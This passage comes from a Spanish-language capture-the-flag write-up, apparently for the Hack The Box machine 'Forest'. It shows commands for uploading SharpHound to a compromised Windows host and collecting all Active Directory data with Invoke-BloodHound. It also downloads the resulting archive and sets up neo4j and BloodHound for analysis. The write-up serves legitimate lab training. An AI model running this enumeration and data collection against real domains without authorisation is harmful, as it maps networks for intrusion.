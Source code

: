```bash
upload SharpHound.ps1
```

Una vez subido, importaremos y utilizaremos la función `Invoke-BloodHound` para recolectar toda la información necesaria.

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

Esto generará un archivo comprimido con toda la información del _AD_. Para descargar este archivo a nuestro equipo, utilizaremos el siguiente comando:

```bash
download <timestamp>_BloodHound.zip BloodHound.zip
```

![19](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/19.png){:class="blog-image" onclick="expandImage(this)"}

Lo siguiente que haremos será importar el archivo comprimido que generó `SharpHound` a `BloodHound`. Para ello, en caso de no contar con la herramienta instalada, podemos hacer lo siguiente:

```bash
sudo apt install neo4j bloodhound
```

_Neo4j_ es la base de datos gráfica que `BloodHound` utiliza. La arrancaremos de la siguiente manera:

```bash
sudo neo4j console
```
